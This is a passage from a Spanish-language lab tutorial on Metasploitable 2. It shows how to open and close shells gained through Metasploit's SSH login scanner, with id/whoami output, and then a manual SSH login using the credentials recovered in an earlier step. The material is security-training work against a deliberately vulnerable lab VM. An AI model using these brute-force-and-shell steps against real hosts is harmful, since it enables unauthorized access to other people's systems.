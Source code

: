 > Nota: En la columna **Information** dice para ambas sesiones _SSH root @_, más nosotros sabemos que no necesariamente se usó al usuario _root_ para ello, en este caso _msfadmin_ y _user_.

14. Para abrir un shell de la lista anterior, se usa el **Id** de la sesión con la bandera _-i_, ejemplo con el Id = 2, el shell va a iniciar sesión con el usuario _msfadmin_:

```sh
msf6 auxiliary(scanner/ssh/ssh_login) > sessions -i 2
[*] Starting interaction with 2...


id
uid=1000(msfadmin) gid=1000(msfadmin) groups=4(adm),20(dialout),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),107(fuse),111(lpadmin),112(admin),119(sambashare),1000(msfadmin)
whoami
msfadmin
pwd
/home/msfadmin
ls   
vulnerable
```

> Nota: Los shells de _Metasploit_, cuando se conecta al host objetivo, el prompt no tiene nada, simplemente puedes teclear los comandos.

15. Para salir de la sesión ejecutamos el comando _exit_, saliendo del auxiliary y Metasploit y como tenemos sesiones del shell iniciadas por el _auxiliary_ nos pregunta si queremos salir a pesar de, sugiriéndonos el comando si se desea así _exit -y_:

```sh
msf6 auxiliary(scanner/ssh/ssh_login) > exit
[*] You have active sessions open, to exit anyway type "exit -y"
msf6 auxiliary(scanner/ssh/ssh_login) > exit -y
                                                                                                                                  
┌──(root㉿kali)-[~/ms2]
└─#  
```

> Nota: Para salir _gracílmente_ de las sesiones, ejecutas _sessions -k [ID]_ para un Id o _sessions -k_ para terminarlas todas.

16. Ahora, vamos a realizar una conexión SSH manual con los datos extraídos del _ataque_ con el comando de la terminal para hacer conexiones SSH, teniendo sesiones de shell que hemos hecho también con el auxiliary de Metasploit:

```sh
$> ssh -oHostKeyAlgorithms=+ssh-rsa msfadmin@ms2
The authenticity of host 'ms2 (10.0.2.5)' can't be established.
RSA key fingerprint is SHA256:BQHm5EoHX9GCiOLuVscegPXLQOsuPs+E9d/rrJB84rk.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'ms2' (RSA) to the list of known hosts.
msfadmin@ms2's password: 
Linux metasploitable 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

To access official Ubuntu documentation, please visit:
http://help.ubuntu.com/
No mail.
Last login: Sat Jun  7 22:50:58 2025
msfadmin@metasploitable:~$
```
